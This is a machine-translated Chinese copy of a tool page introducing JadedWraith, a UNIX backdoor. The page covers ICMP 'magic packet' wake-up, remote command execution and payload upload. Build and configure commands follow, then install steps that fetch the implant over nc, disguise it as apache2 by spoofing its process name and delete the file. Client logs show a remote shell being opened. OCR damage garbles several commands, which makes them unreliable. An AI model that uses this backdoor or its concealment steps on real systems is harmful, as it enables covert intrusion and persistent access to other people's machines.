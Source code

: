 # JadedWraith:轻量级 UNIX 后门

> 原文：<https://kalilinuxtutorials.com/jadedwraith/>

[![](img//4817cef65809dc88af2d4a3f7f1d2b19.png)](https://1.bp.blogspot.com/-tk7TDPJebwI/YVHYVQZsnRI/AAAAAAAAK-Y/p-WZ73KHWa894jnDmjlmDLTcck6SHkgawCLcBGAsYHQ/s687/backdoor%2B%25281%2529.png)

JadedWraith 是一个轻量级的 UNIX 后门程序，用于道德黑客攻击。对红队交战和 CTF 有用。这是我几年前写的，是我和一个朋友玩的一个游戏的一部分，这个游戏试图在不被发现或对我们的工具进行反向工程/签名的情况下，在彼此的实验室中后门尽可能多的虚拟机。

**特色**

JadedWraith 是一个强大的后门程序，能够监听 TCP 端口或嗅探“神奇”ICMP 数据包，指示后门程序进行回调或监听。这在一定程度上受到了 PRISM 等工具的启发，然而，与 PRISM JadedWraith 不同的是，它采用了劣质的加密技术来混淆命令和控制。JadedWraith 可用于执行远程命令或上传后续有效载荷。

JadedWraith 可以编译为独立的可执行文件，也可以编译为用于进程注入的共享对象。

**组件**

实际植入的源代码可以在`**src**`目录中找到。`**client**`包含一个简单的基于 python 的客户端，用于与 JadedWraith 交互。`**conf_jawr**`脚本用于配置新的 JadedWraith 可执行文件。

**依赖关系**

植入需要一个现代的 C 库和 libpthread。根据目标操作系统的不同，可能需要 libpcap(在这种情况下，您必须运行带有`**--use-libpcap**`的`**./configure**`脚本来启用 libpcap 支持)。

Python 配置脚本和客户端需要以下包才能工作:termcolor、pycryptodomex

**如何编译**

只需使用`**Makefile**`进行编译。注意:在使用之前，必须配置在`**bin**`中找到的结果二进制文件。

**$。/configure
$ make
$ ls-lart bin
-rwxrwxr-x . 1 root root 19712 年 7 月 31 日 13:08 JadedWraith-2 . 0 . 0-Linux-x86 _ 64 . elf**

**如何** C **配置**

使用`**conf_jawr**`脚本来配置 JadedWraith 可执行文件。它将在`**bin**`目录中搜索 JadedWraith 可执行文件以进行配置。配置的二进制文件将被写入`**configured**`目录。

**$。/conf_jawr
JadedWraith 配置
请选择一个 JadedWraith 二进制文件来使用:
1。JadedWraith-2 . 0 . 0-Linux-x86 _ 64 . elf
二进制:1
共享密钥[95454 c93 c8 D5 d30 a 0782 da 72 ade 10 e 29]:
启用被动模式(ICMP 唤醒)？[y/n] y
唤醒密码[4 zw 2 ttaikbcyeolwd 7 rrtasrluf 90 vsznlfzn 2 a 4 ab 018 VJ]:
argv[0](留空不欺骗命令)[] :
JadedWraith 可执行文件:/tmp/JadedWraith/configured/builds/JadedWraith-2 . 0 . 0-Linux-x86 _ 64.1627752415 . bin
试试我！
须藤。/wraith-client . py-k 95454 c 93 c8 d 5d 30 a 0782 da 72 ade 10 e 29-P 4 zw 2 ttaikbcyeolwd 7 rrtasrluf 90 vsznlfzn 2 a 4 ab 018 VJ shell**

**如何安装**

可以简单地在目标系统上运行配置好的植入程序。如果配置为使用被动 ICMP 功能，则必须以 root 用户身份运行。环境变量 _CMD 可以用来欺骗进程的`**argv[]**`

**# CD/tmp
# NC-lvp 4444>Apache 2
# chmod+x Apache 2
# _ CMD = "/usr/sbin/Apache 2"。/apache2
#rm apache2**

**如何互动**

`**client**`里面的`**wraith-client.py**`脚本可以用来和 JadedWraith 交互。只需用`**conf_jawr**`脚本产生的参数调用它，用目标的 IP 替换`**<IP_ADDRESS>**`。如果利用 ICMP 功能，则必须以 root 用户身份运行脚本来发送 ICMP 数据包。

**~/JadedWraithFork/client>sudo。/wraith-client . py 192 . 168 . 100 . 224-k 1 deeb 4 a 64440 b 8d 13 c 84 a 8 EB 4 e 7c 4453-P y 00 nrnwpwxdvpoxss 6k 0 r 7 lelfecbvkx 91 OJ 0 S5 brnlyx 1 wr shell
[+]发送 ICMP 唤醒命令到 192.168.100.224
[ *]后门将监听端口 58290 [.
[ *]进入交互外壳。cd /tmp w 14:22:49 up 3:02，1 用户，负载平均:0.18，0.19，0.23 用户 TTY 登录@ IDLE JCPU PCPU 什么 ps -ef UID PID PPID C STIME TTY 时间 CMD root 1 0 0 11:20？00:00:01/usr/lib/systemd/systemd–switched-root–system–deserialize 31。从 sudo 出口出去。/wraith-client . py 127 . 0 . 0 . 1–callback 192 . 168 . 100 . 224-k 1 dee B4 a 64440 b 8d 13 c 84 a 8 e B4 e 7c 4453-P y 00 nrnwpwxdvposss 6k 0 r 7 lelfecbvkx 91 OJ 0s 5 brnlyx 1 wr shell[+]发送 ICMP 唤醒命令到 127.0.0.1 [* ]后门将连接到端口 37943【中【*】进入交互外壳**

[**Download**](https://github.com/phath0m/JadedWraith)